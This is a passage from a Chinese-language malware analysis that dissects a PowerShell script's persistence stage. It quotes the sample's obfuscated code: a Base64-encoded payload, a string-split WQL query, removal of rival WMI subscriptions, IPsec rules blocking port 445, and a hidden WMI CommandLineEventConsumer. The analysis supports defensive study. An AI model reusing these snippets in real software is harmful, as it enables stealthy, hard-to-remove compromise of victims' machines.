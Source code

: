 113-263 行定义了 `$Script` 变量，用于保存持久化 PowerShell 代码，其中的代码逻辑与 `antitrojan.ps1` 大致相同，[稍后单独分析](#script)。

264-265 行将 `$Script` 转换为 Base64 字符串，保存在 `$EncodedScript` 变量中：

```powershell linenums="264"
$Scriptbytes = [System.Text.Encoding]::Unicode.GetBytes($Script)
$EncodedScript=[System.Convert]::ToBase64String($Scriptbytes)
```

267 行定义了 WQL 查询语句，使用了字符替换来混淆，原始的查询语句如下：

```SQL
SELECT * FROM __InstanceModificationEvent WITHIN 5601 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'
```

- 监视系统性能数据的变化 (`Win32_PerfFormattedData_PerfOS_System`)，每当这些数据发生变化时触发事件
- `WITHIN 5601` 表示查询的轮询间隔，5601 秒

```powershell linenums="267"
$Query = (('SELECT *'+' FR'+'OM __'+'InstanceM'+'odi'+'fi'+'ca'+'tion'+'Eve'+'nt WITHIN 560'+'1'+' W'+'HER'+'E Targ'+'e'+'t'+'I'+'nsta'+'nce I'+'SA BiAWin3'+'2'+'_'+'Pe'+'rf'+'Form'+'at'+'tedDa'+'ta'+'_'+'PerfOS'+'_Sy'+'stemBiA').rePlACE(([Char]66+[Char]105+[Char]65),[StRIng][Char]39))
```

269-271 行删除其他竞争恶意软件的 WMI 持久化机制：

```powershell linenums="269"
geT-`W`MIO`BJeCt -Namespace root\Subscription -Class __FilterToConsumerBinding | ReMove-`W`miOb`JEcT
GET`-`Wm`IobjEct -Namespace root\Subscription -Class __EventFilter |r`emoVE-WMI`obJ`e`ct
gEt-`wM`io`BJ`eCT -Namespace root\Subscription -Class CommandLineEventConsumer | removE-`W`M`IOBJect
```

273-278 行设置了 IPsec 规则以阻止任何地址访问本机 445 端口的流量，防止其他恶意软件通过该端口入侵：

```powershell linenums="273"
NE`TSh ipsec static add policy name=netbc
Ne`TSH ipsec static add filterlist name=block
n`eTsh ipsec static add filteraction name=block action=block
nE`TSh ipsec static add filter filterlist=block any srcmask=32 srcport=0 dstaddr=me dstport=445 protocol=tcp description=445
NeT`sH ipsec static add rule name=block policy=netbc filterlist=block filteraction=block
net`Sh ipsec static set policy name=netbc assign=y
```

280-294 行部署 WMI 持久化机制：

- 创建 WMI 事件过滤器：
    - 命名空间：`root\subscription`
    - 类：`__EventFilter`
    - 事件名称空间：`root\cimv2`
    - 查询语句：之前定义的 `$Query` 变量（监控系统性能数据变化）
- 创建 WMI 事件消费者：
    - 命名空间：`root\subscription`
    - 类：`CommandLineEventConsumer`
    - 命令模板：`powershell.exe -NoP -NonI -W Hidden -E $EncodedScript`（无配置文件、无交互、隐藏窗口、Base64 编码命令）
- 创建 WMI 事件过滤器和消费者之间的绑定
